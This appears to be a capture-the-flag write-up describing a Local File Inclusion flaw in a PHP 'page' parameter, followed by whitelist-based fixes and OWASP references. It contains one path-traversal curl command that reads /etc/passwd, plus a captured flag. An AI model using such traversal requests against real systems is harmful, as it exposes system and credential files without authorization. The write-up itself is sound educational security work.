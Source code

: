 # Local File Inclusion (LFI) Vulnerability

## 🎯 Overview
This vulnerability demonstrates a Local File Inclusion (LFI) attack vector where the application fails to properly validate file paths in the 'page' parameter, allowing access to system files.

## 🔍 Vulnerability Details
- **Endpoint**: `index.php?page=`
- **Parameter**: `page`
- **Attack Vector**: Path Traversal
- **Target File**: `/etc/passwd`

## ⚔️ Exploitation Process

### Attack Method
```bash
# Path traversal to access system files
curl "http://x.x.x.x/?page=../../../../../../../etc/passwd"
```

### Attack Result
**Flag**: b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

## 🛡️ Security Issues Identified
1. Insufficient input validation
2. No path sanitization
3. Dangerous file system access
4. Missing access controls
5. Improper file path handling

## 🔒 Recommended Security Fixes

### 1. Implement Path Validation
```php
function validatePath($path) {
    // Whitelist allowed paths
    $allowed = ['home', 'about', 'contact'];
    return in_array($path, $allowed);
}
```

### 2. Security Measures Checklist
- [ ] Implement strict input validation
- [ ] Use whitelisting for allowed files/paths
- [ ] Remove direct file system access
- [ ] Implement proper access controls
- [ ] Use secure file handling functions

### 3. Additional Security Controls
```php
// Example secure implementation
public function getPage($page) {
    $whitelist = [
        'home' => 'home.php',
        'about' => 'about.php',
        'contact' => 'contact.php'
    ];
    
    if (!isset($whitelist[$page])) {
        return 'error.php';
    }
    
    return $whitelist[$page];
}
```

## 📚 Additional Resources
- [OWASP File Inclusion Prevention](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [CWE-98: Improper Control of Filename for Include/Require Statement](https://cwe.mitre.org/data/definitions/98.html)
- [PHP Security Best Practices](https://www.php.net/manual/en/security.filesystem.php)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.